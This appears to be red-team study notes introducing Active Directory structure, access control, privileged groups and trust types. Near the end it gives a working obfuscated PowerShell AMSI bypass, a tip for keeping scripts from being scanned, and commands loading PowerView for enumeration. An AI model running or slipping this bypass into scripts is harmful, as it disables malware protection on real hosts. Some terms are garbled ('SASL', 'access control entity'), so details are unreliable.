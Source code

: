 # Introduction

### Elements

* Schema: definition of an object and its properties
* Global catalog (DC): provides information about all objects in the directory
* Replication Service: synchronizes information about objects between all Domain Controllers
* Forest: a security boundary that includes several domains
* Domain: identified as a SID, contains several Organization Units
* Organization Unit (OU): the smallest container within a domain. Can be used to store users, groups or computers.

### Access control

Performed through a combination of token containing identity and privileges of user and security descriptors of the targeted object which include:

* SID: security identity of the owner of object
* DACL: discretionary ACL - access permissions of the client on the object
* SASL: system ACL - logging and audit policies by user
* ACE: access control entity - the single access rule that composes the list of rules used by DACL and SACL to manage accesses

### User groups

<table><thead><tr><th width="85.33333333333331">ID</th><th width="208">Name</th><th>Description</th></tr></thead><tbody><tr><td>512</td><td>Domain Admins</td><td>Grants administrative privilege over the whole domain</td></tr><tr><td>549</td><td>Server Operators</td><td>Grants administrative privilege on the DC</td></tr><tr><td>551</td><td>Backup Operators</td><td>Allows to access any file regardless of permission and performs backups</td></tr><tr><td>548</td><td>Account Operators</td><td>Allows to create or edit user accounts</td></tr><tr><td>513</td><td>Domain Users</td><td>Includes all users</td></tr><tr><td>515</td><td>Domain Computers</td><td>Includes all machine accounts</td></tr><tr><td>516</td><td>Domain Controllers</td><td>Includes all DCs</td></tr></tbody></table>

### Trust

Link between two domains that allows objects to share information. Can occur between father/child or horizontally across the forest boundary.&#x20;

* One Way trust: users in the trusted domain can access resources on the trusting domain but the reverse is not true
* Bi-directional trust: users in mutually trusting forests can share and access to both domains
* External: bi-directional and non transitive trust between domains on different forests
* Default:  two-way transitive trust between father-child elements
* Forest: trust established between root elements of forest. Can be one or two ways, transitive or non transitive
* Shortcut: can be one or two way, used to ease communications within large structures

Bidirectional Default trusts can always be enumerated



### AMSI Bypass

Obfuscated strings to disable AMSI PowerShell protection

```
PS C:\> [Ref].Assembly.GetType('System.Management.Automation.Ams'+'iUtils').GetField('am'+'siInitFailed','NonPu'+'blic,Static').SetValue($null,$true)
```

### Including External Scripts

By storing PS1 scripts under C:\AD\Tools they will not be scanned&#x20;

#### PowerView

```
. .\PowerView.ps1
```

#### LDAP Module

```
Import-Module .\Microsoft\ActiveDirectory.Management.dll
Import-Module .\ActiveDirectory\ActiveDirectory.psdl
```
